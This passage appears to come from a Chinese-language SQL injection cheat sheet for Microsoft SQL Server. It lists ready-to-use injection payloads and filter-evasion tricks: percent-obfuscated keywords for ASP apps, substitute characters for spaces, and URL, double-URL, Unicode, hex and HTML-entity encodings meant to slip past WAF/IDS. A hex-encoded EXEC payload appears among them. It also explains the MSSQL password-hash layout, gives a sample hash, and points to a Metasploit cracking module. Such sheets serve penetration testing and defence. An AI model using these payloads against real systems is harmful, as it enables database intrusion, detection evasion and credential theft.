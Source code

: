	S%E%L%E%C%T%01column%02FROM%03table;
	A%%ND 1=%%%%%%%%1;

__注意__

百分号关键字仅适用于`ASP`的`Web`应用程序。

以下的字符也可以避免使用空格。


	22	"
	28	(
	29	)
	5B	[
	5D	]

__例子__

	UNION(SELECT(column)FROM(table));
	SELECT"table_name"FROM[information_schema].[tables];

##### 在AND/OR 之后使用的其他字符

	01 - 20	Range
	21	!
	2B	+
	2D	-
	2E	.
	5C	\
	7E	~

__例子__

	SELECT 1FROM[table]WHERE\1=\1AND\1=\1;

__注意__

反斜杠似乎不适用于`MSSQL 2000`。

##### 编码

对你的注入语句进行编码，有时候可以绕过`WAF/IDS`。


	URL Encoding	SELECT %74able_%6eame FROM information_schema.tables;
	Double URL Encoding	SELECT %2574able_%256eame FROM information_schema.tables;
	Unicode Encoding	SELECT %u0074able_%u6eame FROM information_schema.tables;
	Invalid Hex Encoding (ASP)	SELECT %tab%le_%na%me FROM information_schema.tables;
	Hex Encoding	' AND 1=0; DECLARE @S VARCHAR(4000) SET @S=CAST(0x53454c4543542031 AS VARCHAR(4000)); EXEC (@S);--
	HTML Entities (Needs to be verified)	%26%2365%3B%26%2378%3B%26%2368%3B%26%2332%3B%26%2349%3B%26%2361%3B%26%2349%3B

#### 密码加密

密码以0x0100开始，0x之后的第一个字节是常量;接下来的八个字节是散列盐，剩余的80个字节是两个散列，前40个字节是密码的区分大小写散列，而第二个40个字节是大写。

	0x0100236A261CE12AB57BA22A7F44CE3B780E52098378B65852892EEE91C0784B911D76BF4EB124550ACABDFD1457

#### 密码破解

一个`Metasploit`模块[JTR](http://www.metasploit.com/modules/auxiliary/analyze/jtr_mssql_fast)可以进行破解密码。


